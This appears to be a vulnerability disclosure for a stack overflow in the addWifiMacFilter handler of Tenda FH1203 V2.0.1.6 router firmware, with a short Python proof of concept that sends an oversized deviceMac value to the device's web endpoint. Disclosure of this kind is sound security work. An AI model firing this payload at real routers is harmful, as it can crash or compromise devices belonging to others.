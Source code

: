 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v4` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240319224933815](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224933815.png)

![image-20240319224915736](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224915736.png)

![image-20240319224924004](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224924004.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320012015657](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012015657.png)